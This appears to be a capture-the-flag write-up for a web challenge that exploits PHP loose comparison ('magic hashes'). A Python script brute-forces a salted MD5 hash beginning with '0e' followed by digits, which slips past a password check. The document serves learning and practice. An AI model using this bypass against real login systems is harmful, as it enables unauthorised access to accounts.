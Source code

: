 # Web - wx01
## Description
```
Visit the site at https://3-wx02.bootupctf.net and find a way to bypass the password check. You can download the source code from the web page.
```

Reaching the web page shows:
![wx01](./img/wx01.png)

This is an example of magic hashes vulnerability. In PHP, “==” returns true if $a equals $b AFTER transtyping. 
That means that 2 strings beginning by “0e” and filled with numbers will always be equal. So the only thing needed is to find a password that would return a hash starting with "0e" followed by only numbers. This can be brute forced with:

```
import hashlib

salt = "c789abc318a2d1ac"

for i in range(100000000):
    password = salt + str(i)
    password = password.encode('utf8')

    nhash = hashlib.md5(password).hexdigest()
    if nhash[0:2] == "0e" and nhash[2:32].isdigit():
        print(str(i), nhash)
        exit(0)
```

After a few minutes we get a password that when inputed returns the flag.